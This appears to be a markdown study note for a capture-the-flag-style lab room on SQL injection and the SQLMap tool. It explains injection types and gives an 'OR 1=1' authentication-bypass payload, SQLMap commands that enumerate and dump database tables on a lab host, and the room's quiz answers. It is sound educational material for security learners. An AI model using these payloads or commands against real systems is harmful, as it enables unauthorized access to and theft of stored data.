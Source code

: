 ## SQLMap

---

### Overview

SQL injection (SQLi) is a common and dangerous web vulnerability where unsanitized user input alters SQL queries executed by the back-end DBMS. SQLMap is an automated, command-line tool that helps detect and exploit SQLi vulnerabilities across many DBMS types (MySQL, PostgreSQL, MSSQL, SQLite, etc.).

> **Note:** Only test systems you own or have explicit permission to test.

---

### What is a database and how web apps use it

* A **database** stores structured application data (users, products, posts).
* Web apps interact with DBMSs via **SQL** queries (e.g., `SELECT`, `INSERT`).
* Input fields (login, search) often form parts of those SQL queries — if unvalidated, they can be manipulated.

---

### Simple login example (conceptual)

Original safe query (example):

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

Attacker input (injection):

```
Password: abc' OR 1=1;-- -
```

Resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

Because `OR 1=1` is always true, the WHERE clause can evaluate as true and bypass authentication.

---

### Types of SQLi (brief)

* **Boolean-based (blind)** — infer data using true/false responses.
* **Time-based (blind)** — infer data by causing DB delays (e.g., `SLEEP()`).
* **Error-based** — force DB errors that leak data.
* **UNION-based** — inject `UNION SELECT` to retrieve results.

---

### SQLMap: Quick introduction

* Run `sqlmap --help` to see flags.
* For guided usage, use the wizard: `sqlmap --wizard`.

Wizard example:

```bash
sqlmap --wizard
```

It will prompt for the full URL (`-u`) and guide through options.

---

### Common SQLMap workflow & flags

1. **Scan a GET URL:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1"
```

2. **Extract all databases:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" --dbs
```

3. **List tables of a database:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" -D users --tables
```

4. **Dump a specific table:**

```bash
sqlmap -u "http://sqlmaptesting.thm/search/cat=1" -D users -T thomas --dump
```

5. **Use an intercepted POST request saved to a file:**

```bash
sqlmap -r intercepted_request.txt
```

---

### Interpreting SQLMap output (high-level)

* SQLMap reports **injection point(s)** and **payloads** used; e.g., boolean-based, error-based, time-based, UNION.
* It will often identify the **back-end DBMS** (e.g., `MySQL >= 5.1`), web server OS, and web technologies.
* After identifying injection, use `--dbs`, `-D`, `--tables`, and `--dump` to enumerate.

---

### Example (condensed output style)

```
Parameter: cat (GET)
  Type: boolean-based blind
  Payload: cat=1 AND 2175=2175

Available databases [2]:
  * users
  * members
```

---

### Safety, ethics, and tips

* **Always** have explicit authorization to test a target.
* Use the `--level` and `--risk` flags to tune aggressiveness.
* Save sessions and resume scans with `--batch` or by using SQLMap's session files.
* Be mindful of rate limits and noisy payloads (WAF/IDS may flag you).

---

### Quick reference (cheat-sheet)

* Wizard: `sqlmap --wizard`
* Test URL: `sqlmap -u <url>`
* Databases: `--dbs`
* Tables: `-D <db> --tables`
* Dump rows: `-D <db> -T <table> --dump`
* Intercepted request: `-r <file>`

---

### Short Q&A (from room)

* **Which flag extracts all databases?** `--dbs`
* **Full command to extract all tables from `members` (vulnerable URL `http://sqlmaptesting.thm/search/cat=1`):**

```bash
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---

### Further reading / next steps

* Practice on intentionally vulnerable labs (e.g., OWASP Juice Shop, DVWA) or your lab environment.
* Learn to capture and sanitize HTTP requests (Burp Suite, browser devtools) for `-r` usage.
* Study manual SQLi techniques to understand what SQLMap automates.

